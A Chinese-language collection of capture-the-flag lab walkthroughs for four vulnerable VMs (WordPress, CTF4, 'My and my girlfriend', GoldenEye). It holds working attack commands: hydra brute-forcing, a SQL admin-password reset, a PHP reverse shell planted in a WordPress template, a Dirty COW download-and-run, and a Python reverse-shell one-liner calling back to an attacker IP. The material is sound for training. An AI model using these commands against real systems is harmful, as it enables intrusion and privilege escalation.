# WordPress靶场

## 简介

​		WordPress是使用PHP语言开发的博客平台，用户可以在支持PHP和MySQL数据库的服务器上架设属于自己的网站。也可以把WordPress当作一个内容管理系统（CMS）来使用。

​		WordPress是一款个人博客系统，并逐步演化成一款内容管理系统软件，它是使用PHP语言和MySQL数据库开发的,用户可以在支持PHP 和MySQL数据库的服务器上使用自己的博客。

## 实验过程

### 第一阶段：信息收集

#### 获取靶机IP地址

```
arp-scan -l
```

 

#### 端口扫描

```
nmap -sS -p- -v -T4 192.168.128.135
```

 

##### nmap信息参数说明

- -A：详细扫描目标IP，加载所有脚本，全面探测信息
- -v：显示详细的扫描过程
- -sS：TCP SYN扫描
- -sS：服务版本扫描
- -p-：扫描全部端口（等同于-p 1-65535)
- -T4：级别越高扫描速度越快，最高6级

#### 访问80端口

 

### 目录遍历

```
dirb http://192.168.128.135
```

 

==可以看到有一个phpmyadmin的数据库管理后台入口和wp-admin的网站管理后台==

### 第二阶段：漏洞挖掘

#### 后台访问

##### 访问phpmyadmin页面进行弱口令尝试

###### 使用brup进行拦截

 

###### 尝试爆破



需要遵循重定向

 


可以看出`root`的与众不同

 

尝试成功

 

### 第三阶段：漏洞利用

#### 查看数据库

==可以发现有一个`wordpress`的数据库中有一个`wp_users`的数据表==


##### 破解网站后台密码密码

看到了后台存储的账号密码，密码为MD5值

放入MD5解密工具解出密码

 

##### 或者修改网站后台密码

```sql
UPDATE `wp_users` SET user_pass = MD5( "123456" ) WHERE user_login = "cleverbao"
```





#### 修改option

 

 

#### 登录网站后台

==账号：cleverbao 密码=123456==

打`wp-admin`网站后台管理系统

 

 

#### 上传shell

###### 生成shell

```
cat /usr/share/webshells/php/php-reverse-shell.php
```

 

复制这段shell

###### 上传shell

点击外观，选择编辑，选择404模板，插入shell

修改shell中的ip地址为攻击机的ip监听端口为4444



#### 执行shell

##### 在kali中使用netcat，监听4444端口

```
nc -nlvp 4444
```

 

##### 访问不存在的页面

 

##### 通过whoami查看当前权限

 

当前权限为apache权限，不是root权限，需要进一步提权

`$`代表一般用户权限，`#`代表root权限

### 第四阶段：权限提升

#### 脏牛提权

 

#### 访问脏牛提权官网

 

下载压缩包并解压

 https://github.com/FireFart/dirtycow/blob/master/dirty.c

#### 打开文件夹并进入终端

 

 

#### 编译

```linux
gcc -pthread dirty.c -o dirty -lcrypt
```

#### 给予权限

```linux
chmod +x dirty  
```

 

#### 攻击机架设web服务

```linux
python3 -m http.server 80
```

#### 靶机上下载dirty

```linux
cd /tmp
wget http://192.168.128.129/dirty  //获取攻击机上的dirty
```


#### 提权

```linux
./dirty new_passwd //任意新密码
```

 

#### 登录靶机服务器

账号：firefart 密码：123456

 

## 思路总结

### 进攻过程

- 信息收集：主机发现、扫描和识别端口服务，找到22、80、3306等服务

  - ```
    // 使用命令
    arp-scan -l // 主机发现
    nmap -sS -sS -p- -v -T4 192.168.128.135 // 端口扫描
    ```

- 敏感目录扫描：找到敏感后台路径

  - ```
    dirb http；//192.168.128.135 // 目录遍历
    ```

- 使用brup进行弱口令爆破，登录数据库后台，发现/修改网站后台账号密码

- 利用网站账号登录网站后台是实现挂马

  - ```
    cat /usr/share/webshells/php/php-reverse-shell.php //生成kali自带shell
    nc -nlvp prot //监听端口，prot木马端口例如：4444
    ```

- 使用Dirty Cow漏洞提权，获取管理员账号实现root权限

  - ```
    攻击机
    gcc -pthread dirty.c -o dirty -lcrypt //编译
    xxxxxxxxxx1 1chmod +x dirty
    python3 -m http.server 80 //假设web服务
    靶机
    cd /tmp
    wget http://192.168.128.129/dirty  //获取攻击机上的dirty
    ./dirty new_passwd //任意新密码
    ```

### 防御过程

- 关闭不需要的端口，遵循最小话原则
- 使用常见网站CMS时，修改默认后台路径
- 使用PhpmyAdmin时，修改默认路径和密码
- 升级操作系统版本，不定时打补丁修复漏洞
- 关注最新漏洞情报，提升安全运维响应能力

# CTF4

## 1、信息收集

### 扫描内网主机

```
netdiscover -i eth0 -r 192.168.128.0/24
```

 

发现目标主机IP：192.168.128.136

### 扫描目标主机端口

```
nmap -sS -p- -v -T4 192.168.128.138
```

发现目标主机开启：22(SSH)、80(HTTP)、31337端口

 

### 尝试访问目标主机HTTP服务

可以看出网页中没有按钮

 

### 尝试访问主机31337端口

 

#### 查看网页源代码

看到代码注释中有一段被加密的字符，以等号结尾，判断其加密类型为Base64

 

#### 解码

发现没有价值，出现一个cypher.matrix文件

```
echo "密文" | base64 -d // -d为解码
```


#### 尝试在URL上访问

下载一个文件

Brainfuck 语言

 

尝试解码


翻译：你可以以guest的身份进入matrix，密码为k1ll0rxx。注:实际上，我忘记了最后两个字符，所以我用XX代替了，试试你的运气，找到正确的密码字符串。

## 漏洞挖掘与利用

### 生成密码字典

```
crunch 8 8 -t k1ll0r%@ -o dict.txt // crunch 8(最小长度) 8(最大长度) -t(@:小写字母，%:数字) -o(输出) 字典名字
```

###  暴力破解

```
hydra -l guest -P dict.txt 192.168.128.138 ssh
```

 

### SSH登录

账号：guest 密码：k1ll0r7n

 

登录上之后发现权限不够，-rbash权限非常小

需要切换shell

 

### 查看可以使用的命令

发现只可以使用vi

 

## 权限提升

在`vi`编辑器中`!`在命令前代表调用外部命令，在命令后代表强制执行

通过vi编辑器进行切换shell

 

切换后发现错误输出为bash，shell切换成功

 

ls命令可以使用

 

使用echo $PATH查看shell路径

 

查找能够sudo的shell目录，一般存放在bin目录下

 

在当前环境变量中添加，并尝试登录，提示：没有su命令

 

查找su命令

 

添加到环境变量

 

再次尝试登录，成功登录

 

### 成功拿到flag

 

# 我和我的女朋友

## 1、信息收集

### 1.1扫描内网主机

```
netdiscover -i eth0 -r 192.168.128.0/24
```

发现目标主机IP为192.168.128.139

 

### 1.2扫描靶机的服务&端口

```
nmap -sS -p- -sV 192.168.128.139 
```

发现目标主机开启22(ssh)、80(http)端口，

 

### 1.3访问靶机web服务

 

#### 1.3.1查看网页源代码

提示使用x-forwarder-for

 

#### 1.3.2使用ModHeader插件

添加并刷新后成功进入页面


#### 1.3.3访问注册页面

 

#### 1.3.4登录


#### 1.3.5点击页面

 

发现该页面可以查看用户名和密码

 

#### 1.3.6 观察url发现sql注入漏洞 

通过修改id的值可以查看不同用户的信息


通过修改前端代码可是显示出密码原文

 

## 2、漏洞利用

### 2.1 尝试SSH登录

通过不同账号尝试当id=5时的账号可以进行登录

 

### 2.2查看当前目录下的文件

.my_secret(我的秘密)目录很可疑

 

#### 2.2.1 访问.my_secret目录并查看文件

获取到flag1，并得到提示下一步是获取到root的flag


## 3、权限提升

### 3.1访问web服务配置目录并查看文件

config目录很可疑

 

#### 3.1.1访问config目录并查看文件

发现php链接数据库语句，并显示出了root的账号密码

 

### 3.2提升权限为root

 

### 3.3访问根目录

 

# goldeneye

## 1、信息收集

### 1.1扫描内网主机

```
netdiscover -i eth0 -r 192.168.128.0/24
```

 

### 1.2扫描靶机端口&服务

靶机开启25(smtp)、55006、55007(pop3)端口邮件服务器和80(http)端口web服务器

 

### 1.3访问靶机web服务

获取信息：登录页面为 /sev-home/

 

#### 1.3.1查看网页源代码


#### 1.3.2查看文件

翻译后发现用户名以及加密后的密码

用户名：Boris

密文：\&#73;\&#110;\&#118;\&#105;\&#110;\&#99;\&#105;\&#98;\&#108;\&#101;\&#72;\&#97;\&#99;\&#107;\&#51;\&#114; HTML编码

解码：&#73;&#110;&#118;&#105;&#110;&#99;&#105;&#98;&#108;&#101;&#72;&#97;&#99;&#107;&#51;&#114;

已经另外一个用户：Natalya

 

### 1.4 登录

输入密码后发面没有反应

 

#### 1.4.2使用小写用户名进行尝试

登录成功


 

翻译：“黄金眼”是苏联的绝密武器项目。由于您拥有访问权限，您肯定拥有绝密许可并有资格成为经过认证的GoldenEye网络运营商(GNO)。请给合格的GNO主管发电子邮件，以接受在线GoldenEye运营商培训，成为GoldenEye系统的管理员。请记住，由于匿名安全性非常有效，我们已将pop3服务配置为在非常高的非默认端口上运行

由于上面我们扫描出 55006、55007(pop3)端口

## 2、漏洞挖掘

### 2.1 爆破boris 的pop3邮箱密码

```
hydra -l boris -P /usr/share/wordlists/fasttrack.txt  192.168.128.140 -s 55007 pop3
```


### 2.2 访问邮箱

```
nc 192.168.128.140 55007        
+OK GoldenEye POP3 Electronic-Mail System
user boris
+OK
pass secret1!
+OK Logged in.
```

 

### 2.3 读取信息

 

 

#### 2.3.1 查看信息

从第三个邮件信息可以获取到一个新的用户：Xenia

你和我们集团的合作会有大回报的。附件是GoldenEye的最终访问码。将它们放在该服务器根目录下的隐藏文件中，然后从此电子邮件中删除。这些访问码只能有一组，我们需要为最后的执行保护它们。如果他们被抓回来，我们的计划就完蛋了!一旦Xenia进入培训网站并熟悉了黄金眼终端代码，我们将推进到我们的最后阶段

PS -保持安全严密，否则我们将受到损害。

### 2.4 爆破Xenia的密码

```
hydra -l Natalya -P /usr/share/wordlists/fasttrack.txt 192.168.128.140 -s 55007 pop3
```

 

#### 2.4.1 登录邮箱并查看信息


#### 2.4.2 查看第二封邮件获取信息

好的，Natalyn，我给你介绍了一个新学生。由于这是一个新系统，如果你看到任何配置问题，特别是与安全相关的问题，请告诉我或boris…即使不是，也可以在“安全”的幌子下输入……它将使更改订单升级，没有太多麻烦:)好，用户信用是:==用户名:xenia密码:RCP90rulez==!鲍里斯证实她是一个有效的承包商所以创建一个账户，好吗?如果你没有URL在外部内部域:**severnaya-station.com/gnocertdir **确保编辑你的主机文件，因为你通常工作远程离网

由于您是Linux用户，只需将此服务器的IP指向**/etc/hosts.中的severnaya-station.com**

### 2.5 根据信息修改hosts文件

 

### 2.6 访问severnaya-station.com/gnocertdir/

 

#### 2.6.1 登录xenia用户


#### 2.6.2通过点击索引获取信息

获取到一个新的用户Doak

 

### 2.7爆破Doak用户

```
hydra -l Doak -P /usr/share/wordlists/fasttrack.txt 192.168.128.140 -s 55007 pop3
```

 

#### 2.7.1 登录Doak用户并查看信息

 

詹姆斯，如果你正在读这篇文章，恭喜你已经走了这么远。你知道谍报技术是怎么运作的吧?因为我不知道。去我们的培训网站，登录我的账户....挖掘，直到你可以泄漏更多的信息......用户名:dr_doak 密码: 4England!

### 2.8 severnaya-station.com/gnocertdir/并登录dr_doak用户


#### 2.8.1 点击索引查看获取信息

得到一个s3cret.txt的文件

 

查看s3cret.txt文件，得到一个路径

 

#### 2.8.2 访问/dir007key/for-007.jpg

 

#### 2.8.3 查看该图片的信息

看到有一个加密字符串，判断为base64编码，解密获得：xWinter1995x! 猜测为admin的密码

 

### 2.9 访问severnaya-station.com/gnocertdir/并尝试登录admin用户

登录成功


#### 2.9.1 查看索引获取信息


#### 2.9.2 修改为python脚本

```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.159.137",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

 

## 3、权限提升

### 3.1 通过console运行

 